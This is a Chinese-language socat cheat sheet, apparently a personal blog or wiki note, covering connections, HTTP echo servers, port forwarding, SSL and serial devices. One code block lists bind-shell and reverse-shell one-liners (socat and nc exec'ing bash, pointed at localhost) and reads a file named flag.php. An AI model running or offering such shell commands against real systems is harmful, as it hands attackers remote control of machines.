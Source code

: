 ```yaml
---
title: socat
author: "-"
date: 2017-12-16T07:26:52+00:00
url: socat
categories:
  - network

---
```

## socat

### 建立TCP连接
    socat - tcp:192.168.1.18:80

### 建立连接并发送数据: 
    echo "hahaha" | socat - tcp:192.168.1.18:80

#### IPv6
    socat - tcp:[fd00::123]:12345 

### test a remote port is reachable with socat
```bash
socat - TCP4:192.168.1.15:22,connect-timeout=2
```

### http echo server
```bash
# 直接返回 pong
socat -v TCP-LISTEN:80,crlf,reuseaddr,fork SYSTEM:"echo HTTP/1.0 200; echo Content-Type\: text/plain; echo; echo pong"
# header: Access-Control-Allow-Origin
socat -v TCP-LISTEN:8000,crlf,reuseaddr,fork SYSTEM:"echo HTTP/1.0 200; echo Content-Type\: text/plain; echo Access-Control-Allow-Origin\:*;echo; echo pong"
# 使用前选 创建 响应数据的文本文件 foo.txt
socat -v TCP-LISTEN:80,crlf,reuseaddr,fork SYSTEM:"echo HTTP/1.0 200; echo Content-Type\: text/plain; echo; cat foo.txt"

```
- reuseaddr: Allows other sockets to bind to an address even if parts of it (e.g. the local port) are already in use by socat.
比如上面这条命令, 用socat打开了80端口, 80端口已经在被socat使用了, 我们打开端口是要接受其它客户端连接的,使用 reuseaddr, 能让其它客户端跟80建立连接.
due to reuseaddr, it allows immediate restart after master processes termination, even if some child sockets are not completely shut down.  Option reuseaddr allows immediate restart of the server process.
- fork: fork a child process to handle all incoming client connections.
加了 fork 的参数后，就能同时应答多个链接过来的客户端，每个客户端会 fork 一个进程出来进行通信，加上 reuseaddr 可以防止链接没断开玩无法监听的问题。
每次 accept 一个链接都会 fork 出一份来不影响接收其他的新连接，这样 socat 就可以当一个端口转发服务，一直启动在那里。还可以用 supervisor 托管起来，开机自动启动。
- crlf: use CR+NL on this connection, relay data to and from stdio
- SYSTEM: <shell-command>, Forks a sub process that establishes communication with its parent process and invokes the specified program with system()

### socat send http request
```bash
socat - TCP:wiloon.com:80
GET / HTTP/1.1 \r\n
host: www.wiloon.com \r\n
\r\n
```

### 向zookeeper 发送 stat 查询zookeeper版本
```bash
echo stat | socat - TCP:192.168.1.xxx:2181
```

### proxy http port
    socat TCP4-LISTEN:188,reuseaddr,fork TCP4:192.168.97.11:8888

Socat 是 Linux 下的一个多功能的网络工具,名字来由是 「Socket CAT」, 其功能与有"瑞士军刀"之称的 netcat 类似, 不过据说可以看做netcat的加强版。的确如此,它有一些netcat所不具备却又很有需求的功能,例如ssl连接这种。nc可能是因为比较久没有维护,确实显得有些陈旧了。

Socat 的主要特点就是在两个数据流之间建立通道，且支持众多协议和链接方式。如 IP、TCP、 UDP、IPv6、PIPE、EXEC、System、Open、Proxy、Openssl、Socket等。

### 安装  
    yum install -y socat
    apt-get install socat

### 基本语法

```bash
socat [options] <address> <address>
```

其中这2个address就是关键了,如果要解释的话,address就类似于一个文件描述符, socat所做的工作就是在2个address指定的描述符间建立一个pipe用于发送和接收数据。

那么address的描述就是socat的精髓所在了,几个常用的描述方式如下: 

-,STDIN,STDOUT : 表示标准输入输出,可以就用一个横杠代替
  
/var/log/syslog : 也可以是任意路径,如果是相对路径要使用 ./,打开一个文件作为数据流。
  
TCP:: : 建立一个TCP连接作为数据流,TCP也可以替换为UDP
  
TCP-LISTEN: : 建立TCP监听端口,TCP也可以替换为UDP
  
EXEC: : 执行一个程序作为数据流。
  
以上规则中前面的TCP等都可以小写。

在这些描述后可以附加一些选项,用逗号隔开,如fork,reuseaddr,stdin,stdout,ctty等。

```bash直接回显
socat - -

# 通过 Socat 读取文件
# 从绝对路径读取
socat - /var/www/html/flag.php

# 从相对路径读取
socat - ./flag.php

# 写文件
echo "hello" | socat - /home/user/chuck

socat当netcat
连接远程端口
nc localhost 80
socat - TCP:localhost:80

监听端口
nc -lp localhost 700
socat TCP-LISTEN:700 -

正向shell
nc -lp localhost 700 -e /bin/bash
socat TCP-LISTEN:700 EXEC:/bin/bash

反弹shell
nc localhost 700 -e /bin/bash
socat tcp-connect:localhost:700 exec:'bash -li',pty,stderr,setsid,sigint,sane

代理与转发
将本地80端口转发到远程的80端口
socat TCP-LISTEN:80,fork TCP:www.domain.org:80
```

其他
  
其实从这里才是重点

SSL连接
  
SSL服务器

socat OPENSSL-LISTEN:443,cert=/cert.pem -
  
需要首先生成证书文件

SSL客户端

socat - OPENSSL:localhost:443
  
fork服务器
  
接下来这个例子,就是我认识socat的原因,可以将一个使用标准输入输出的单进程程序变为一个使用fork方法的多进程服务,非常方便。

socat TCP-LISTEN:1234,reuseaddr,fork EXEC:./helloworld
  
不同设备的通信
  
将U盘进行网络共享

socat -d -d /dev/ttyUSB1,raw,nonblock,ignoreeof,cr,echo=0 TCP4-LISTEN:5555,reuseaddr
  
-d -d 指的是调试信息的级别

将终端转发到COM1

socat READLINE,history=$HOME/.cmd_history /dev/ttyS0,raw,echo=0,crnl
  
socat还有个readbyte的option,这样就可以当dd用了。

小结
  
因为在Linux/UNIX中,一切都是文件,无论是socket还是其他设备。所以从理论上来说,一切能够在文件层级访问的内容都可以成为socat的数据流的来源,2个address可以任意发挥,能够做到的事情还有很多。特别是其fork的功能,确实是netcat所不能比的。

参考文献
  
借鉴的几篇博文: 
  
Some Useful Socat Commands
  
Socat: A very powerful networking tool
  
Socat Examples
  
其他内容,可以参考socat man page

### 官网
http://www.dest-unreach.org/socat/
  
http://brieflyx.me/2015/linux-tools/socat-introduction/
  
https://www.hi-linux.com/posts/61543.html